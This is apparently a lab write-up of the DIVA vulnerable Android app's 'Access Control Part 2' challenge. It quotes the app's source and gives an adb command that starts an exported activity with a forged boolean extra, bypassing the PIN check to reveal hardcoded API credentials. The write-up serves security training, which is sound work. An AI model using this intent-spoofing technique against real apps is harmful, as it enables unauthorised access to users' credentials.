 ## Access Control Part 2

So this time, you will be greeted by a page thats asks you whether you have registered or not.

If you chose registered, the credentials will come out

If you chose register now, you will be prompted to enter the pin which you have gotten from payatu.com

So what if we try the method mentioned in part 1?

Lets see the source code:
    
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_access_control2);
    }

    public void viewAPICredentials(View view) {
        //RadioButton rbalreadyreg = (RadioButton) findViewById(R.id.aci2rbalreadyreg);
        RadioButton rbregnow = (RadioButton) findViewById(R.id.aci2rbregnow);
        Intent i = new Intent();
        boolean chk_pin = rbregnow.isChecked();

        // Calling implicit intent i.e. with app defined action instead of activity class
        i.setAction("jakhar.aseem.diva.action.VIEW_CREDS2");
        i.putExtra(getString(R.string.chk_pin), chk_pin);
        // Check whether the intent resolves to an activity or not
        if (i.resolveActivity(getPackageManager()) != null){
            startActivity(i);
        }
        else {
            Toast.makeText(this, "Error while getting Tveeter API details", Toast.LENGTH_SHORT).show();
            Log.e("Diva-aci1", "Couldn't resolve the Intent VIEW_CREDS2 to our activity");
        }
    }


so lets try this in the terminal:
   
   
    adm shell am start -a jakhar.aseem.diva.VIEW_CREDS2



Apparently it doesnt work. Lets look at the source code for VIEW_CREDS2:

#### The vulnerability

    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_apicreds2);
        TextView apicview = (TextView) findViewById(R.id.apic2TextView);
        EditText pintext  = (EditText) findViewById(R.id.aci2pinText);
        Button  vbutton   = (Button) findViewById(R.id.aci2button);
        Intent i = getIntent();
        boolean bcheck = i.getBooleanExtra(getString(R.string.chk_pin), true);

        if (bcheck == false) {
            // Connect to vendor cloud and send User PIN
            // Get API credentials and other confidential details of the user
            String apidetails = "TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2";
            // Display the details on the app
            apicview.setText(apidetails);
        }
        else {
            apicview.setText("Register yourself at http://payatu.com to get your PIN and then login with that PIN!");
            pintext.setVisibility(View.VISIBLE);
            vbutton.setVisibility(View.VISIBLE);
        }
    }
Apparently what you get is determined by a single boolean variable known as bcheck which is from chk_pin from the previous activity

If chk_pin is true, it gives you the page which prompts for the pin

Else, it shows you the credentials which is what we want!!!!

#### The exploit

So what we want is to start the activity with chk_pin being false!

so type this in the terminal:
        
     adb shell am start -a jakhar.aseem.diva.action.VIEW_CREDS2 -n jakhar.aseem.diva/.APICreds2Activity --ez check_pin false

--ez is used to pass a boolean value into the activity





#### Success!!!


